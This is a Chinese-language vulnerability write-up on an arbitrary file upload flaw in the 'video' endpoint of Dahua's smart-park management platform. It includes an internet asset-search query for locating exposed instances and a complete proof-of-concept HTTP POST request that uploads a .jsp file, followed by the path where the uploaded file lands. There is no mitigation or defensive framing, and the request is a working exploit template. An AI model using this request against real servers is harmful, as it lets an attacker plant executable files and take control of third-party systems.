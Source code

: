# 大华 智慧园区综合管理平台 video 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台 video 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，控制服务器权限

## 漏洞影响

<a-checkbox checked>大华 智慧园区综合管理平台 	</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="dahua-智慧园区综合管理平台"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1-20230812163903583.png)

验证POC

```php
POST /publishing/publishing/material/file/video HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 804
Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7
Accept-Encoding: gzip, deflate
Connection: close

--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Filedata"; filename="Test.jsp"

Test
--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Submit"

submit
--dd8f988919484abab3816881c55272a7--
```

![img](/assets/PeiQi-Wiki/img/1691823930473-91166fc0-48f5-4c6c-b305-2237a53b13d6.png)

```php
/publishingImg/VIDEO/230812152005170200.jsp
```